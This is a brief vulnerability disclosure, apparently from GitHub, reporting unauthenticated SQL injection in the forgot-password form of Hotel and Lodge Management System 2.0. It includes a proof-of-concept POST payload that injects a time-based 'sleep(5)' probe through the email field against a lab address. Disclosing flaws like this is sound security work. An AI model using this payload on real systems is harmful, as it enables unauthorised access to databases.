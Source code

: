 HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI
Disclosure date: 10/24/19

Hotel and Lodge Management System is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'Email'.

Proof of Concept:

http://192.168.234.128/forgot_password.php
POST:btn_forgot=1&email=1' or sleep(5)%23

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)
